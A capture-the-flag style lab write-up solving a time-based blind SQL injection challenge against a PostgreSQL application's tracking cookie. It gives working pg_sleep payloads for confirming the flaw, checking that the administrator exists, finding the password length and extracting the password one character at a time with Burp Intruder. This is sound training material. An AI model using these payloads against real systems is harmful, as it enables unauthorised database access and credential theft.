# Blind SQL Injection with Time Delays and Information Retrieval

**Author:** Dnyaneshwar Yadav

---

## Overview

This lab contains a **Blind SQL Injection** vulnerability in the **TrackingId cookie**.

The application does not display query results or SQL errors, but it processes the SQL query and can be exploited using **time-based inference** through database sleep functions.

**Goal:** Extract the administrator password using time delays and login successfully.

---

## Lab Information

- **Difficulty Level:** Practitioner
- **Vulnerability Type:** Blind SQL Injection (Time-based)
- **Database Type:** PostgreSQL
- **Target:** Administrator password extraction

---

## Solution

### Step 1: View lab description page

Open the lab and read the vulnerability description.

The application uses a `TrackingId` cookie that is vulnerable to time-based SQL injection.



---

### Step 2: Intercept normal request and establish baseline

Visit the shop homepage and intercept the request using **Burp Suite Proxy**.

Send the request to **Burp Repeater** for manual testing.

Observe the normal response time (≈217 ms) as a baseline.



---

### Step 3: Test simple time delay injection

Inject a time delay payload in the TrackingId cookie:
```sql
'|| pg_sleep(10)--
```

The response is delayed by **~10 seconds**, confirming that time-based SQL injection is possible.



---

### Step 4: Test conditional time delay (True condition)

Test a conditional payload with a true condition (1=1):
```sql
'|| (SELECT CASE WHEN (1=1) 
THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```

The response is delayed by **10 seconds**, confirming the condition is true.



---

### Step 5: Test conditional time delay (False condition)

Test a false condition (1=0):
```sql
'|| (SELECT CASE WHEN (1=0) 
THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```

The response is returned **quickly** with no delay, confirming conditional execution works.



---

### Step 6: Verify administrator user exists

Check if the administrator user exists in the users table:
```sql
'|| (SELECT CASE WHEN (username='administrator') 
THEN pg_sleep(10) ELSE pg_sleep(0) END 
FROM users)--
```

The response is delayed by **10 seconds**, confirming the administrator user exists.



---

### Step 7: Enumerate password length

Test the password length using a conditional payload:
```sql
'|| (SELECT CASE WHEN (username='administrator' 
AND LENGTH(password)=§20§) 
THEN pg_sleep(10) ELSE pg_sleep(0) END 
FROM users)--
```

Use **Burp Intruder** to test different lengths sequentially.

When `LENGTH(password)=20`, a delay occurs, confirming the password is **20 characters long**.



---

### Step 8: Configure Sniper attack for length enumeration

Set up **Burp Intruder** in Sniper mode to test password length values.

Observe response times to identify the correct length.



---

### Step 9: Setup Cluster Bomb attack for character extraction

Configure **Cluster Bomb attack** to extract password characters:
```sql
'|| (SELECT CASE WHEN (username='administrator' 
AND SUBSTRING(password,§1§,1)='§a§') 
THEN pg_sleep(10) ELSE pg_sleep(0) END 
FROM users)--
```

- **Payload 1:** Character position (1-20)
- **Payload 2:** Character value (a-z, 0-9)



---

### Step 10: Execute Cluster Bomb attack

Run the attack with **single-thread (1 concurrent request)** for accurate timing.

Responses with **~10 second delay** indicate the correct character.



---

### Step 11: Extract complete password

Repeat the process for all 20 positions.

Each correct character is identified by the time delay.

**Extracted password:** (shown in screenshot)



---

### Step 12: Login as administrator and solve lab

Use the extracted credentials to login:
```
Username: administrator
Password: <extracted_password_every_time_new>
```

Login is successful and the lab is automatically marked as **Solved**.



---

## Result

Successfully exploited **Blind SQL Injection with Time Delays** to:

* Confirm time-based injection vulnerability
* Test conditional execution
* Verify administrator user existence
* Determine password length (20 characters)
* Extract password character-by-character
* Login as administrator

---

## Screenshots Folder Structure
```text
screenshots/
├── 01-lab-description.png
├── 02-normal-request.png
├── 03-time-delay-test.png
├── 04-true-condition.png
├── 05-false-condition.png
├── 06-admin-user-exists.png
├── 07-length-confirmed.png
├── 08-sniper-attack.png
├── 09-cluster-bomb-setup.png
├── 10-cluster-bomb-running.png
├── 11-password-extracted.png
└── 12-lab-solved.png
```

---

## Disclaimer

This repository is for educational purposes only. The techniques demonstrated here should only be used in authorized environments such as security labs and CTF challenges.

---